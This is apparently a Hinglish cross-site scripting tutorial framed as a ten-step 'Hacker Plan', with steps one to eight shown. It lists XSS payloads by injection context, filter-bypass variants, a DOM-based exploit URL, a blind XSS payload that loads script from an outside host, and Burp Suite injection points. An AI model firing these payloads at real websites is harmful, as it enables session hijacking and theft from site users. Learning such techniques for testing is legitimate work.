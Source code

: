 Hacker Plan" (10 Steps)

### ✅ Step 1: XSS ka DNA — Reflection + Execution

XSS hone ke liye do cheezein zaroori hain:

- Reflection → Tumhara input page pe visible ya hidden form mein aaya

- Execution → Browser ne us input ko text nahi, code samjha

### 🧠 Tip:

Agar input sirf dikh rahi hai (text), to XSS nahi
Agar input JS ki tarah run ho rahi hai — boom! Alert chala to XSS confirmed!

---

### ✅ Step 2: 6 Contexts Jahan XSS hota hai

| Context Name            | Example Reflection              | XSS Payload                 |
| ----------------------- | ------------------------------- | --------------------------- |
| HTML                    | `<div>input_here</div>`         | `<script>alert(1)</script>` |
| Attribute               | `<img src="input_here">`        | `x" onerror="alert(1)`      |
| JS Context              | `var a = "input_here";`         | `";alert(1);//`             |
| URL                     | `<a href="input_here">`         | `javascript:alert(1)`       |
| Event Handler           | `<button onclick="input_here">` | `alert(1)`                  |
| Comment / Style / Title | `<!-- input_here -->`           | XSS not possible mostly     |


🧠 Tip:
Pehle inspect karo ya page source check karo — kis context mein input reflect ho rahi hai, uske hisaab se payload banao.

---

### ✅ Step 3: Bypass Techniques

| Bypass Type        | Payload Example                                                        |
| ------------------ | ---------------------------------------------------------------------- |
| Tag-based          | `<svg/onload=alert(1)>`, `<iframe srcdoc="<script>alert(1)</script>">` |
| Encoding           | `%3Cscript%3Ealert(1)%3C/script%3E`                                    |
| Broken Tags        | `<scr<script>ipt>alert(1)</scr<script>ipt>`                            |
| Event Bypass       | `autofocus onfocus=alert(1)`                                           |
| Attribute Breaking | `x" onmouseover="alert(1)`                                             |
| HTML Entity        | `&lt;svg/onload=alert(1)&gt;`                                          |

Tip:

Jab <script> block ho, to svg, iframe, math, img, input, body, details, select — sab test kar.

---

### ✅ Step 4: IFRAME ka Use XSS mein
📌 Purpose:
Hidden XSS run karne ke liye

Other payloads inject karne ke liye (CSP bypass / clickjacking etc.)

✅ Example Payload:

```<iframe srcdoc="<script>alert('XSS')</script>"></iframe>```

srcdoc iframe ka andar ka HTML define karta hai

Yahan <script> tag directly run hota hai

🧠 Note:

iframe payloads mostly HTML context mein use hote hain — ya jab normal tags block ho jaayein

---

### ✅ Step 5: SVG ka Use XSS mein
📌 Purpose:
<script> tag block ho to alternate route

SVG browser ke liye trusted hota hai (graphics tag hai)

---

### Step 6: DOM-Based XSS Samajh
📌 Jab JS code input uthakar page mein inject karta hai

🔍 Jaise:

```let q = location.hash;
document.getElementById("result").innerHTML = q;```

✅ Exploit:

```http://example.com/#<img src=x onerror=alert(1)>```

🧠 DOM XSS ka source hota hai: location, location.hash, document.referrer, etc.

---

### ✅ Step 7: Blind XSS

📌 Jab tu payload daale, alert tere samne nahi chalta — lekin backend user (admin) ke saamne chalta hai.

Example Payload:

```<script src=//xss.habib.com/x.js></script>```

🧠 Use tools like XSSHunter, Interactsh, ya apna webhook.site

---

### ✅ Step 8: XSS Detection via BurpSuite

- Intercept request
- Send to Repeater
- **Inject payloads in:**

- Query parameters
- Headers (User-Agent, Referer)
- POST body
- Cookies
- Check Reflection

Match context → fire payload

---
